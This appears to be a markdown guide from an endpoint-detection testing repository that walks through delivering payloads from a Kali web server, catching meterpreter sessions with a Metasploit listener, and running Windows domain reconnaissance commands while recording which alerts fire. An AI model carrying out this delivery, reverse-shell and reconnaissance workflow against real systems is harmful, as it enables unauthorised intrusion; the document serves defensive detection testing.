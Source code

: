 # Phase 1 Testing

## Payload Delivery

Start this test by starting a web server using python in the same directory your 3 payloads exist on you're Kali system.

```
python3 -m http.server
```

On target machine download the three payloads, record if any alerts fire for this activity. 
You may also try different browsers as that can result in different checks and hooks used by the endpoint software.

If all files are blocked you can either allow the downloads manaually in the security stack or conclude the test.


## Execution

Start you MSF listener on your attacker host. The msf.rc is a configuration file for Metasploit, you can take the contents or download this [file](https://github.com/blumirabrian/endpoint-detection-methology/blob/main/msf/msf.rc), make sure to update the SSL to the certificate you created in the [initial setup phase](https://github.com/blumirabrian/endpoint-detection-methology/blob/main/msf/MSF-Setup.md#inital-setup-for-msf-testing) and change the LHOST IP to the IP on you Kali machine.

```
sudo msfconsole -r msf.rc
```

Run the three test files from 1 to 3 by simply double clicking, and record the detection results. It is recommended to right click and run at least one of the payloads as Administrator to facilitate later testing for privesc.

## Discovery

The rests of the tests will be ran from out created meterpreter sessions.

First let's run systeminfo on the system:
(session -i start an interactive sessions where N is the number of the meterpreter session your host has established.)
```
msf6 exploit(multi/handler) > sessions -i N
[*] Starting interaction with N...

meterpreter > shell


systeminfo
```

The second discover task is to look for connected domain trusts and administrative accounts.

*Execute these commands using a shell that is not SYSTEM but a domain user account*
```
msf6 exploit(multi/handler) > sessions -i N
[*] Starting interaction with N...

meterpreter > shell

net group "enterprise admins" /domain
net group "domain admins" /domain
```

The third discovery task will look for local accounts and groups.

```
msf6 exploit(multi/handler) > sessions -i N
[*] Starting interaction with N...

meterpreter > shell

whoami /groups
net view /all
```


